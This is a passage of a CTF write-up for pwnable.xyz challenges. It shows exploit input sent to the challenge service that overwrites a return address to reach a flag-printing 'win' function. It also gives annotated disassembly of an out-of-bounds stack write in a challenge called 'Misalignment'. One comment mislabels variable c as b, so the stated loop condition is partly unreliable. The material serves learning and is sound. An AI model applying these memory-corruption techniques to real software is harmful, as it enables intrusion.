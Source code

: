 
Since there is function ``win`` that prints out flag, we could get the flag by overwriting the return address with address of ``win``.

exploit:
```bash
junheah@ubuntu:~$ nc svc.pwnable.xyz 30002
Input: 4196386 0 13
Result: 4196386Input: a
FLAG{easy_00b_write}
```

## 3. Misalignment
```nasm
0x0000000008000a17 <+56>:    lea    rax,[rbp-0xa0]
0x0000000008000a1e <+63>:    add    rax,0xf
0x0000000008000a22 <+67>:    mov    esi,0xdeadbeef
0x0000000008000a27 <+72>:    mov    QWORD PTR [rax],rsi
```
The main function write 0xdeadbeef to rbp-0xa0+0xf (rbp-0x91)
```nasm
0x0000000008000a2a <+75>:    lea    rax,[rbp-0xa0]
0x0000000008000a31 <+82>:    lea    rcx,[rax+0x30]  ;c [rbp-0x70]
0x0000000008000a35 <+86>:    lea    rax,[rbp-0xa0]
0x0000000008000a3c <+93>:    lea    rdx,[rax+0x28]  ;b [rbp-0x78]
0x0000000008000a40 <+97>:    lea    rax,[rbp-0xa0]
0x0000000008000a47 <+104>:   add    rax,0x20
0x0000000008000a4b <+108>:   mov    rsi,rax ;a [rbp-0x80]
0x0000000008000a4e <+111>:   lea    rdi,[rip+0x149]        # 0x8000b9e  ;"%ld %ld %ld"
0x0000000008000a55 <+118>:   mov    eax,0x0
0x0000000008000a5a <+123>:   call   0x8000818   ;scanf
0x0000000008000a5f <+128>:   mov    DWORD PTR [rbp-0xa4],eax
0x0000000008000a65 <+134>:   cmp    DWORD PTR [rbp-0xa4],0x3
0x0000000008000a6c <+141>:   jne    0x8000ac6 <main+231>
0x0000000008000a6e <+143>:   mov    rax,QWORD PTR [rbp-0x70]    ;c
0x0000000008000a72 <+147>:   cmp    rax,0x9
0x0000000008000a76 <+151>:   jg     0x8000ac6 <main+231>
0x0000000008000a78 <+153>:   mov    rax,QWORD PTR [rbp-0x70]    ;b
0x0000000008000a7c <+157>:   cmp    rax,0xfffffffffffffff9
0x0000000008000a80 <+161>:   jl     0x8000ac6 <main+231>
```
Then it gets into a while loop with condition of scanf() == 3, c <= 9, b >= -7. a,b,c are variables that scanf() gets input to.
```nasm
0x0000000008000a82 <+163>:   mov    rax,QWORD PTR [rbp-0x70]    ;c
0x0000000008000a86 <+167>:   mov    rcx,QWORD PTR [rbp-0x80]    ;a
0x0000000008000a8a <+171>:   mov    rdx,QWORD PTR [rbp-0x78]    ;b
0x0000000008000a8e <+175>:   add    rdx,rcx ;a+b
0x0000000008000a91 <+178>:   add    rax,0x6 ;c+6
0x0000000008000a95 <+182>:   mov    QWORD PTR [rbp+rax*8-0x98],rdx
```
Then a+b is saved to [rbp+(c+6)*8-0x98]
```nasm
0x0000000000000ac6 <+231>:   lea    rax,[rbp-0xa0]
0x0000000000000acd <+238>:   add    rax,0xf
0x0000000000000ad1 <+242>:   mov    rdx,QWORD PTR [rax]
0x0000000000000ad4 <+245>:   movabs rax,0xb000000b5
0x0000000000000ade <+255>:   cmp    rdx,rax
0x0000000000000ae1 <+258>:   jne    0xae8 <main+265>
0x0000000000000ae3 <+260>:   call   0x9cc <win>
```
Finally, it compares rbp-0x91 with 0xb000000b5 and shows flag if same.
